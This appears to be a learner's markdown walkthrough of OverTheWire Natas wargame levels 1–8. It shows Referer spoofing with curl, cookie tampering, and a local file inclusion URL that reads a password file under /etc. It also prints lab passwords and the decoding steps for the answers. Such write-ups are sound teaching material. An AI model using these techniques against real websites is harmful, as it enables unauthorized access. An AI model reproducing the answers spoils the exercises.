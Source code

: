# Level 1
Solution:
after you open link, open inspector check html code there you can find password

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
# Level 5
```Visiting the website returns the following text: “Access disallowed. You are not logged in”. The website should determine that we are logged in through a cookie. So, by opening the developer tools and going to the ‘Storage’ tab, we can see the ‘Cookies’ section. Here we find a cookie named ’loggedin’ with the value=0. Let’s try changing the value to 1 (by double-clicking on it) and refreshing the page.```

# Level 6 
if you take a look into source code that handles `input` you find something like this 
`include "includes/secret.inc"include "includes/secret.inc"` it means that it inludes another php file to get key from it,
and now we should do it manually `http://natas6.natas.labs.overthewire.org/index-source.html/include/secret.inc` its just a white/black screen 
check inspector and you find key

# Level 7 
Level 7 is bassically same as Level 6
  * take a look into source code
  * you will find something like this ` hint: password for webuser natas8 is in /etc/natas_webpass/natas8`
  * and go this link via page `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

# Level 8 
Level 8 is same as level 6 but pin-code placed in the script you should decode it
```
 echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p

==QcCtmMml1ViV3b #decode hash to bin

echo "==QcCtmMml1ViV3b" | rev #reverse

b3ViV1lmMmtCcQ

echo b3ViV1lmMmtCcQ== | base64 -d

oubWYf2kBq  #key   
```
